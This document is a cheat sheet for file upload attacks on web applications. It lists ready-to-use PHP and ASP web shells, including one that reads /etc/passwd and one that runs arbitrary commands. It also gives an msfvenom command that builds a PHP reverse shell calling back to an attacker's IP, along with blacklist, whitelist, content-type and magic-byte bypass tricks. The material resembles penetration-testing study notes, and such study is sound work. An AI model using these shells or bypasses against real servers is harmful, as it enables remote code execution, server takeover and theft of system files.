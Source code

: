 # File Upload Attacks Cheat Sheet

## Web Shells
| Web Shell | Description |
|-----------|-------------|
| `<?php echo file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| PHP Web Shell | PHP Web Shell |
| PHP Reverse Shell | PHP Reverse Shell |
| Web/Reverse Shells | List of Web Shells and Reverse Shells |

## Bypasses
| Command | Description |
|---------|-------------|
| **Client-Side Bypass** | |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** | |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| PHP Extensions | List of PHP Extensions |
| ASP Extensions | List of ASP Extensions |
| Web Extensions | List of Web Extensions |
| **Whitelist Bypass** | |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20, %0a, %00, %0d0a, /, .\, ., …` | Character Injection - Before/After Extension |
| **Content/Type Bypass** | |
| Content-Types | List of All Content-Types |
| File Signatures | List of File Signatures/Magic Bytes |

## Limited Uploads
| Potential Attack | File Types |
|------------------|------------|
| XSS | HTML, JS, SVG, GIF |
| XXE/SSRF | XML, SVG, PDF, PPT, DOC |
| DoS | ZIP, JPG, PNG |
